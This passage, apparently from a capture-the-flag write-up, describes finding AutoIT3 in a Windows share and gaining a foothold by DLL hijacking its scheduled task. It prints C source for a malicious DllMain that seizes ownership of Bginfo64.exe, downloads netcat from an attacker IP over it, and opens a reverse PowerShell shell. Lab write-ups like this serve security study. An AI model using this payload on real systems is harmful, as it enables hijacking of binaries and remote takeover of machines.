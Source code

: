 ### Processes

Get-Process list shows a number of processes running. One of the processes that shows AutoIT3.exe

![](<../../.gitbook/assets/image (13).png>)

[https://www.autoitscript.com/site/](https://www.autoitscript.com/site/) Advises that is designed for automating windows tasks.

Given that this .exe lives in the Share, followed by the contents of the scripts folder that contains .au3 file types - which are associated to AutoIT3.exe, gives clues to maniuplating these files.



### Foothold 2

The second Foothold comes from the DLL Hijack of the AutoIT3 Scheduled Task.

[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

1. Takeownership of Bginfo64.exe&#x20;
2. Curl netcat.exe to replace BgInfo64.exe
3. Run netcat.exe and open a reverse powershell shell.

```
# include <windows.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
  switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
      system("takeown /f C:\\share\\Bginfo64.exe");
      system("icacls C:\\share\\Bginfo64.exe /grant Everyone:F /T");
      system("curl 10.10.16.5:8080/nc.exe -o c:\\share\\Bginfo64.exe");
      system("C:\\share\\Bginfo64.exe 10.10.164.65 1234 -e Powershell.exe");
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```
